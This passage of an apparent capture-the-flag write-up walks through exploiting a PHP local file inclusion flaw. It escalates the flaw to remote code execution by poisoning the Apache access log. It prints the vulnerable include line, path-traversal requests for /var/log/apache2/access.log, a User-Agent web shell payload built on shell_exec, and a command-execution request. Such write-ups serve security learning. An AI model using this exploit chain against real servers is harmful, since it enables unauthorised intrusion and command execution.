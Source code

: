 Decoding this gives us the entire source code for `index.php`.

Now we get a very interesting piece of code:
```php
# [...]
$ext = isset($_GET["end"]) ? $_GET["end"] : '.php';
# [...]
include $_GET['view'] . $ext; # This is the line 24, that we were breaking from the start.
# [...]
```
---

The ability to control the file extension gives us a whole new world of possibilities.

Let's start by trying to do RCE (remote code execution) using log files

The idea behind this is setting up a new query parameter on the server by sending a GET Request with a User-Agent header that has php code instead as the parameter.

Now by viewing a log file in the browser, we can RCE on the server.

The process is very technical, so here are my sources of inspiration:
- [How to use File Inclusion to get Remote Code Execution?
](https://www.youtube.com/watch?v=2QwS-ChXHtQ)
- [PayloadsAllTheThings - LFI to RCE via controlled log file](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#lfi-to-rce-via-controlled-log-file)

---

Let's use the `end` query parameter to remove the file extension as it just confuses the request even more.

Let's also try to access some log files to be able to execute a custom request. (I've also removed the base64 encoding as it's not needed anymore)
```
view-source:http://[IP]/
  ?end=
  &view=
    php://filter/resource=teks/../../../../../var/log/apache2/access.log
```
<p><img src="src/flag1/lfi_log.jpg" width="750"></p>

We get the contents of the log file and we can see the User-Agent, so let's do a request using our own User-Agent. Here is the payload:
```php
<?php echo(shell_exec($_GET['cmd'])) ?>
```
<p><img src="src/flag1/lfi_rce_payload.jpg" width="750"></p>

Now if we send a request with a simple Hello World we can see it appear on the server logs.
```
view-source:http://[IP]/
  ?end=
  &view=
    php://filter/resource=teks/../../../../../var/log/apache2/access.log
  &cmd=echo+Hello+World
```
<p><img src="src/flag1/rce_attempt_1.jpg" width="750"></p>
